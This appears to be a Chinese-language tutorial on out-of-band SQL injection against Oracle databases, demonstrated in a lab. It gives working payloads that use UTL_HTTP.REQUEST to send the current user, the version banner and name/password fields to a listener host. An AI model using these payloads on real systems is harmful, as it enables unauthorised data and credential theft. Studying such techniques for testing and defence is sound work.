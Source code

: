 Oracle 的带外注入和 DNSLOG 很相似，需要使用网络请求的函数进行注入利用，其中可以进行网络请求的函数有:

*   UTL_HTTP.REQUEST
    
*   UTL_INADDR.GET_HOST_ADDRESS
    
*   SYS.DBMS_LDAP.INIT
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlxwqHXmYDDKO2sFBhmXIIHJKUJgTEibwIkmNtGMRibTPyicD4LNOZBsMuA/640?wx_fmt=png)

**第一步，首先检测函数是否能用。**

```
1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlOBysW9aU0pOHWM4f6EC8dYnxWZcBhwwoibbYcWF4NIiax9z9rDWbxUsw/640?wx_fmt=png)

网页加载正常，则说明该函数可以使用。其中还函数返回值是请求的返回值

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlNPVmDHCd2hZO8ZYeNy0wSkibncV3KKpLWCv6ruAY2uDhiaVpbfNsWFsw/640?wx_fmt=png)

使用方法，其中 || 放在 URL 需要 URL 编码。切记！！！

```
and utl_http.request('http://域名或者ip:端口/'||(注入的语句))=1 --，
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlOYs8tHrOYaKh4HdmDTGo7lZ9XFvs3cPjX3IgIB5QVmcPnWJBa1Wh8Q/640?wx_fmt=png)

发送请求（获取当前用户名）：

```
1 and utl_http.request('http://192.168.1.2:6666/'%7c%7c(SELECT user FROM dual))=1--
```

**第二步，信息收集。**

```
http://192.168.1.6:81/orcl.php?id=1 and utl_http.request('http://192.168.1.2:6666/'%7c%7c(SELECT user FROM dual))=1--
```

收到数据如下：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlEKWcYtDn6bNzRE4UibuViagOA4KzoianzKetuUtnDGRxwibxBeIvNk6jJQ/640?wx_fmt=png)

获取 Banner 信息。

```
http://192.168.1.6:81/orcl.php?id=1 and utl_http.request('http://192.168.1.2:6666/'%7c%7c(select banner from sys.v_$version where rownum=1))=1--
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlicibcGEiaS36v2Hc1gic28ffw7xE4XfbfadEcCJOvKlSz9bw6b5Tjediaxw/640?wx_fmt=png)

获取字段内容。

```
http://192.168.1.6:81/orcl.php?id=1 and utl_http.request('http://192.168.1.2:6666/'%7c%7c(SELECT CONCAT("name","password") FROM STU where rownum=1))=1--
```
